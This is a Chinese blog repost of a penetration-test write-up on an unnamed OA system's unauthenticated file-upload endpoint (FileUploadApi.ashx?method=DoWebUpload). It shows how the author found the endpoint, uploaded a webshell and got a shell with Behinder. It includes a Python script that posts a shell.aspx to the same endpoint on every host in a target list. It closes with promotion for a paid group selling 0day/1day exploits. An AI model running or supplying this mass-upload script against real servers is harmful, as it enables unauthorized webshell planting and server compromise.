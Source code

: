 #  记一次某OA渗透测试有意思的文件上传漏洞挖掘经历以及分析   
1674701160110592  神农Sec   2025-01-03 01:00  
  
扫码加圈子  
  
获内部资料  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/b7iaH1LtiaKWXLicr9MthUBGib1nvDibDT4r6iaK4cQvn56iako5nUwJ9MGiaXFdhNMurGdFLqbD9Rs3QxGrHTAsWKmc1w/640?wx_fmt=jpeg&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/b96CibCt70iaaJcib7FH02wTKvoHALAMw4fchVnBLMw4kTQ7B9oUy0RGfiacu34QEZgDpfia0sVmWrHcDZCV1Na5wDQ/640?wx_fmt=png&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
  
#   
  
网络安全领域各种资源，学习文档，以及工具分享、前沿信息分享、POC、EXP分享。  
不定期分享各种好玩的项目及好用的工具，欢迎关注。  
#   
  
原文链接：https://xz.aliyun.com/t/16959  
  
作者：1674701160110592  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x1 登录**  
  
  
我这边首先找到的是一个文件上传的登陆框  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgOQniciaYrurPQ5icibJNFibzlvZnCaiasaqfalQ9HqOQo9O4dPncWZbmdicrQ/640?wx_fmt=png&from=appmsg "")  
  
测试了一下sql注入之类的，发现没有  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x2 目录扫描**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgvn4GwVzWk9S0BohEgXpsSpkLYFgggMS9Rnhj3ABnX7TicMlicJUxVtCA/640?wx_fmt=png&from=appmsg "")  
  
  
看到api爆出200 ok的那一刻我的心情是激动的，感觉要有很多接口泄露了  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgcIT1IcoAcl4v0vJHeZGVy38f29mFaJN6vCKLjNQmPVKTEJQianKjKGA/640?wx_fmt=png&from=appmsg "")  
  
  
一堆ashx文件加上一个UEditor的组件，ashx  
  
.ashx  
   
文件扩展名  
通常用于表示 ASP.NET 处理程序（ASP.NET Handler）。ASP.NET 处理程序是一种在服务器端处理特定类型请求的代码文件。这些文件通常用于执行一些特殊的服务器任务，如图像生成、文件下载或其他动态内容的处理。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFg28tLAbK0pylWh6ibVv3LSbYDQ5guDN4ZQSsV2BEYX4m2jDzU1Baib0rA/640?wx_fmt=png&from=appmsg "")  
  
  
ueditor组件也有一个ashx文件，看着文件名字应该就是用来处理文件上传功能的  
  
我们访问一下  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgGYKicqddtvW0VhoKcw06ohcX6DNNxz6H54qJO2mZ3rjQdA60IP9h05g/640?wx_fmt=png&from=appmsg "")  
  
给我返回了这个消息，那么我们可以理解为这个文件应该是要传递一个参数的，但是参数是什么，我们目前还不知道  
  
我爆破了一下参数  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgf6LrhIuRE1D0KFTDwycGHqJb8YqZf8av6t2Xe5hh4uP8dpHFXO4ZgQ/640?wx_fmt=png&from=appmsg "")  
  
依旧是接口错误  
  
难道到手的文件上传getshell（bushi就要没了吗？  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x3 查看前段源代码**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgM1Xfniaz73T6cxtbQYgxjAa5YdbImyEicziaE86JQpmzgCv2Ufmo7YUyw/640?wx_fmt=png&from=appmsg "")  
  
查看了一下这个js源码  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgX0zFjwmbcnfc20ibg05s8mlmNbuOJxATMvx0jJQ4iaM0d3mIw3ymwyzg/640?wx_fmt=png&from=appmsg "")  
  
  
一搜索就搜到了我那个文件名  
  
那么就是说可以有文件删除和文件上传两个选择，传入DoWebUpload或者DoDelete参数即可  
  
那么我们选择上传一个木马文件试试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgsmIXeh3LA3Uaore1DqF7xAcsGrZlaKvYY5BfTp8yfib9hpiaxfAE5ZVg/640?wx_fmt=png&from=appmsg "")  
  
  
直接就上传成功了冰蝎连接试试  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgHGRaX2eyGIuOnaMOxhFlgtXoDnTuQN00JygqxIIibbvoahJicl89jNug/640?wx_fmt=png&from=appmsg "")  
  
直接就是getshell成功了  
  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x4 批量脚本测试**  
  
```
import requests
import os
os.environ["http_proxy"] = "http://127.0.0.1:7890"
os.environ["https_proxy"] = "http://127.0.0.1:7890"
def poc(url=""):
# 目标URL
    url = url+'/api/FileUploadApi.ashx?method=DoWebUpload'
    files = {
        'file': ('shell.aspx', """
        """, 'image/png')
    }
    headers = {
        'Cache-Control': 'max-age=0',
        'Upgrade-Insecure-Requests': '1',
        'Origin': 'null',
        'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/125.0.6422.112 Safari/537.36',
        'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7',
        'Accept-Encoding': 'gzip, deflate, br',
        'Accept-Language': 'zh-CN,zh;q=0.9',
        'Connection': 'keep-alive'
    }
    try:
        # 发送POST请求
        response = requests.post(url, files=files, headers=headers,timeout=5)
        # 打印返回结果
        print('Response Code:', response.status_code)
        print('Response Text:', response.text)
    except Exception as e:
        print(e)
if __name__ == '__main__':
    file_path = 'url'
    with open(file_path, 'r', encoding='utf-8') as file:
        for line in file:
            print(line.strip())  # 使用 strip() 去掉行末的换行符
            poc("http://" + line.strip())
    # poc()
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWV4tY9cstmOLZbmOMFgQSFgicKzmWICeYG2vQNZGD3xTJ8J5uuvibtEFtnfa7Yp03LPA1ngsLqRgAKg/640?wx_fmt=png&from=appmsg "")  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/iabIwdjuHp2VkevXU9Iiad0pl0dnkk6GmAQNiaqmb1kKX2NGKhaGF7m8UicdyCp9agykgzj7pNN1oEw4b3QLvFbibzQ/640?wx_fmt=png&from=appmsg&wxfrom=13&wx_lazy=1&wx_co=1&tp=wxpic "")  
  
****  
**0x5 总结**  
  
  
这次感觉这个文件上传藏得还是比较深的，也是告诉自己挖掘一些漏洞的时候，千万不能放过任何一处细节，往往细节决定成败。  
  
  
  
我们是神农安全，  
**点赞 + 在看**  
 铁铁们点起来，最后祝大家都能心想事成、发大财、行大运。  
  
![](https://mmbiz.qpic.cn/mmbiz_png/mngWTkJEOYJDOsevNTXW8ERI6DU2dZSH3Wd1AqGpw29ibCuYsmdMhUraS4MsYwyjuoB8eIFIicvoVuazwCV79t8A/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap086iau0Y0jfCXicYKq3CCX9qSib3Xlb2CWzYLOn4icaWruKmYMvqSgk1I0Aw/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
**内部圈子介绍**  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_gif/MVPvEL7Qg0F0PmZricIVE4aZnhtO9Ap08Z60FsVfKEBeQVmcSg1YS1uop1o9V1uibicy1tXCD6tMvzTjeGt34qr3g/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
圈子专注于更新src相关：  
  
```
1、维护更新src专项漏洞知识库，包含原理、挖掘技巧、实战案例
2、分享src优质视频课程
3、分享src挖掘技巧tips
4、微信小群一起挖洞
5、不定期有众测、渗透测试项目
6、需要职业技能大赛环境dd我
```  
  
  
  
  
  
  
```
```  
  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/b7iaH1LtiaKWWBeNFS2WNPd2FJ1SmqGkcf3s0DkMZicbriaUEuXagWt2eqxBWkUXRyQabIczmNAT5nTxc9tvaBzlww/640?wx_fmt=png&from=appmsg "")  
  
  
**欢迎加入星球一起交流，券后价仅40元！！！ 即将满200人涨价**  
  
**长期更新，更多的0day/1day漏洞POC/EXP**  
  
****  
    
  
